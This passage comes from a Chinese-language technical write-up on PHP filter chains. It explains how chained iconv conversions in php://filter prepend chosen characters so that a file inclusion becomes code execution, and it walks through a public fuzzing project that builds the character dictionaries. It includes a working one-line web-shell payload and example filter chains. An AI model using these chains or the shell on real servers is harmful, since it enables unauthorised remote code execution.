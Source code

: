 ```php
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
dccdb569a6 string(5) "�͵i�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
334d3231 string(4) "3M21"
```

可以看到 当我们增加对应字符的编码串的时候 他会在原字符串的前端生成对应字符。

那么思路就明确了，比如我们要构造生成下面这样的php payload

```php
<?=`$_GET[0]`;;?>
```

我们只需要构造他的base64形式的反转形式最后解码，就能在字符串前端生成我们的payload了

```
PD89YCRfR0VUWzBdYDs7Pz4=` ——> `4zP7sDYdBzWUV0RfRCY98DP
```

#### Fuzz

在了解基本原理之后，我们要做的就是使用编码构造一份字典，对应base64编码中每一个合法字符。

wupco师傅已经开源过fuzz的项目了，所以我们在下面的项目分析里面直接跟进就好x

## 项目分析

### [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT) @wupco

在根据wupco师傅项目的同时把fuzz原理也一并阐述

（因为师傅的项目里面都写好了hhh~所以我就简单注释一下代码都做了什么x）

![img](https://nssctf.wdf.ink//img/WDTJ/202302072110923.png)

先简单说一下各个文件是做什么的x

- res文件夹中是fuzz好的字典，每个文件名对应一个字符hexcode，文件内容是fuzz好的链子x

（`2f` the hexcode of "`/`")

![img](https://nssctf.wdf.ink//img/WDTJ/202302072110119.png)

- `fuzzer.php`是用于fuzz构建res字典的核心程序，通过以现有的（通常是以C的编码：`convert.iconv.L1.ISO2022KR`为基础进行编码变异，逐步构建其他其他字符。
- `init`构建时候利用的文件，即`resource=`指向的文件，默认为`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM`（足够的长x）
- `test.py`用于生成filter链，他会匹配字典中对应字符的hexcode进行拼接，同时会在`test.php`中生成对应的样例程序：
